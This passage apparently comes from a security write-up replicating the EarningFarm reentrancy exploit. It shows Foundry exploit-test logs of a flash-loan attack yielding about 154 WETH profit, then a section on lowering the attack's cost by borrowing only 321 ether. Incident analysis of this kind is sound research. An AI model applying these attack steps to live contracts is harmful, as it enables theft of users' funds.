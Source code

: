 #### **Results**

```markdown
Running 1 test for test/20230809_EarningFarm_exp.t.sol:ContractTest
[PASS] testExploit() (gas: 4106719)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 9679.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9999.498123209743665985
  Cont Withdraw:  159826149929020750293 159826149929020750293
  [*] Attacker's total WETH after attack: 10159.324273138764416278
  [*] Attacker's total WETH after payback flashloan: 154.324273138764416278
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 154.324273138764416278
```

Yeah! We successfully replicated the attack!

## 4. Possible Alternative Attack Methods

This section discusses various approaches to achieving the reentrancy attack.

### 1. Starting with 10,000 ether?

Initially, the attacker borrowed 10,000 ether from Uniswap V3. However, as we later discovered in the analysis, the attacker only used 320 ether. Therefore, we can reduce the amount of borrowed ether to lower the cost. Borrowing 321 ether would yield a profit of 159 ethers:

```markdown
Running 1 test for test/20230809_EarningFarm_exp_2.t.sol:ContractTest
[PASS] testExploit() (gas: 4106719)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 0.160500000000000000
  [*] Attacker's ether balance at the start: 321.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 0.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawn: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 320.498123209743665985
  Cont Withdraw:  159826149929020750293 159826149929020750293
  [*] Attacker's total WETH after attack: 480.324273138764416278
  [*] Attacker's total WETH after payback flashloan: 159.163773138764416278
  ==================== End of attack ====================
```